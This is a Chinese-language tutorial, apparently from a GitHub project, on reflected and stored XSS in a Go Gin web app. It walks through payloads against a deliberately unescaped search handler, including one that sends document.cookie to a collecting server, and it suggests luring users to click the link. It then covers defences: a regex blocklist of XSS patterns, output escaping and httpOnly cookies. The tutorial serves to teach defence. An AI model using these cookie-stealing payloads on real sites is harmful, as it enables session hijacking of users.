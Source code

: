 在web安全的领域中，xss攻击是最常见的一种攻击方式，xss攻击的核心思想就是在HTML页面中注入恶意代码获取敏感数据，比如cookie值；
xss分为三类：反射型、存储型、dom型，反射型xss和存储型xss属于服务器端的安全漏洞，而dom型xss属于前端自身的安全漏洞（本文忽略）；

### 反射型xss
本文用网站经常存在的搜索功能来演示反射型xss的攻击步骤；
```go
type KeywordField struct {
    Keyword string `form:"keyword" valid:"required~搜索关键词不能为空"`
}

func (ctr *Article) Search(c *gin.Context) {

	request := new(request.ArticleSearch)
	if err := c.Validate(request); err != nil {
		panic(err)
	}

	// 种两个用于演示的cookie
	c.SetCookie("token", "token123456", 86400*30, "/", "127.0.0.1", false, false)
	c.SetCookie("userID", "1", 86400*30, "/", "127.0.0.1", false, false)

	c.HTML(http.StatusOK, "search.tmpl", gin.H{
		"keyword": template.HTML(request.Keyword), // 为了方便演示，template.HTML会显示原始字符串，默认会自动对特殊符号转义，
	})
}
```
[源码链接](https://github.com/wizardshan/elegantGo/tree/main/app/chapter3.0)

正常传参请求：

```
http://127.0.0.1:8080/article/search?keyword=手机
```
<img src="../images/2-1.jpg">

#### 第一步：确定注入点

```
http://127.0.0.1:8080/article/search?keyword=<script>alert('XSS')</script>
```
<img src="../images/2-2.jpg">

#### 第二步：获取敏感信息
```
http://127.0.0.1:8080/article/search?keyword=<script>alert(document.cookie)</script>
```
<img src="../images/2-3.jpg">

#### 第三步：收集敏感信息
```
http://127.0.0.1:8080/article/search?keyword=<script>document.write('<img src="http://127.0.0.1:8080/cookies?'+document.cookie+'"/>')</script>
这里的+号有问题，转义一下
http://127.0.0.1:8080/article/search?keyword=%3Cscript%3Edocument.write(%27%3Cimg%20src=%22http://127.0.0.1:8080/cookies?%27%2Bdocument.cookie%2B%27%22/%3E%27)%3C/script%3E
```
<img src="../images/2-4.jpg">
服务器收集数据如下：
<img src="../images/2-5.jpg">

#### 第四步：诱惑用户点击
把第三步精心设计的带有xss漏洞的url通过站内信或邮件的方式发给用户，内容为一些诱惑信息，目的是为了让用户单击链接，
服务器收集到cookie之后再以用户的身份登录网站。

反射型xss应用场景：搜索、查询等用户输入数据需要在前端展示的场景；

### 存储型xss
存储型xss恶意代码通常存储在数据库中，用户只需浏览了包含恶意代码的页面即可在用户无感知的情况下触发，
而反射性xss需要诱导用户点击，所以存储型xss危害性更大。

例1:<br>
攻击者在文章评论中提交了恶意代码，所有浏览过这条评论的用户都会被收集敏感数据。

例2:<br>
攻击者在网站留言板块中提交了恶意代码，管理员在后台查看留言触发恶意代码，导致后台地址、管理员cookie泄漏。

存储型xss应用场景：用户名、昵称、留言、用户反馈、个人信息、发表文章、评论、私信等用户输入数据需要在前端展示的场景；

> 存储型xss原理跟反射性大同小异，这里不做代码演示，有兴趣的小伙伴可以自行深入学习。

#### 总结
**1、当遇到用户输入数据并且需要在前端展示的业务场景时，需要特别小心xss攻击（前端包括网站前端和后台前端）。**

**2、用户输入数据需要进行严格校验过滤。**
```go
type KeywordField struct {
    Keyword string `form:"keyword" valid:"required~搜索关键词不能为空,CheckXSS~非法字符"`
}

var keywords = []string{
`(alert).*(\()`,
`(prompt).*(\()`,
`(eval).*(\()`,
`(window).*(\[)`,
`<script`,
`</script`,
`<x`,
`<X`,
`<http`,
`(function).*(\()`,
`<iframe`,
`(href).*(=)`,
`<br>`,
"alert`",
`(find).*(\()`,
`(top).*(\[)`,
`(vibrate).*(\()`,
`<object`,
`<embed`,
`<img`,
`<layer`,
`<style`,
`<meta`,
`=".*"`,
`<html`,
`(echo).*(\()`,
`(confirm).*(\()`,
`(write).*(\()`,
`</svg`,
`<div`,
`</image`,
`form>`,
`(vectors).*(\()`,
`<body`,
`(url).*(\()`,
`math>`,
`-->`,
`<!--`,
`<!attlist`,
`<label`,
`<%`,
`xmp>`,
`template>`,
`<!doctype`,
`=confirm`,
}

CheckXSS函数会检查参数是否包含keywords字符串数组里的恶意字符；
因为xss恶意代码还有很多变种，所以CheckXSS函数还会通过html转义、url转义、unicode转义、字符小写四个方面检测恶意字符；
xss-validator是github开源项目，简单化放在项目里使用；
```
**3、页面输出用户数据时进行转义。**
```go
c.HTML(http.StatusOK, "search.tmpl", gin.H{
    "keyword": template.HTML(request.Keyword),
})
```
未转义的html源代码：
<img src="images/2-7.jpg">

```go
c.HTML(http.StatusOK, "search.tmpl", gin.H{
    "keyword": request.Keyword,
})
```
转义后的html源代码：
<img src="images/2-8.jpg">

这种方式有小概率的局限性，比如用户输入数据框不是textarea文本框，而是具有更高自由度的富文本框，这时候转义就会出错，
这种情况下更要严格校验用户输入。

<img src="../images/2-6.jpg">

**4、条件允许的情况下，cookie可以设置httpOnly。**
```go
c.SetCookie("token", "token123456", 86400*30, "/", "127.0.0.1", false, false)
//最后一个参数就是httpOnly参数，当设置为true时，document.cookie拿不到token值
```
这种方式也有局限性，很多公司前后端分离，前端调用后端接口需要把token放在header头里，js需要拿到token值，httpOnly参数不能设置为true。

通过两节内容讲解了sql注入和xss攻击的原理步骤和防范措施，目的是有理有据的让大家老老实实的做参数校验，不要偷懒，
参数校验是web安全的最重要一环。
